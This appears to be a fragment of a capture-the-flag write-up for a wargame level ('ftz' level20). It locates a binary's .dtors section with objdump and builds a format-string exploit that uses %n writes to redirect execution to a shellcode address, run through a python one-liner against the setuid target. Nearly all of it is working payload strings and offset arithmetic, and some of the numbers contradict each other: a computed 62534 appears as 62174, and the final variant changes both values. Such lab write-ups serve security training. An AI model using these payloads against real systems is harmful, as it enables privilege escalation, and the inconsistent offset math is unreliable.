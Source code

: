 ```
[level20@ftz level20]$ objdump -h attackme |grep .dtors
 18 .dtors        00000008  08049594  08049594  00000594  2**2
```


### 4. exploit code
1. base exploit code
egg : 0xbffff46e
bfff : 49151
f46e : 62574
AAAA\x98\x95\x04\x08AAAA\x9a\x95\x04\x08%8x%8x%8x%62574c%n%49151c%n

2.
AAAA\x98\x95\x04\x08AAAA\x9a\x95\x04\x08%8x%8x%8x
4 + 4+ 4+ 4 +8 + 8+ 8  = 16 + 24 = 40
62574-40 = 62534
AAAA\x98\x95\x04\x08AAAA\x9a\x95\x04\x08%8x%8x%8x%62174c%n%49151c%n

3.
1bfff = 114687 - 62574 = 52113
AAAA\x98\x95\x04\x08AAAA\x9a\x95\x04\x08%8x%8x%8x%62174c%n%52113c%n


(python -c 'print "AAAA\x98\x95\x04\x08AAAA\x9a\x95\x04\x08%8x%8x%8x%62534c%n%52113c%n"';cat) | /home/level20/attackme

AAAA\x98\x95\x04\x08AAAA\x9a\x95\x04\x08%8x%8x%8x%62534c%n%52113c%n
AAAA\x98\x95\x04\x08AAAA\x9a\x95\x04\x08%8x%8x%8x%62085c%n%52562c%n
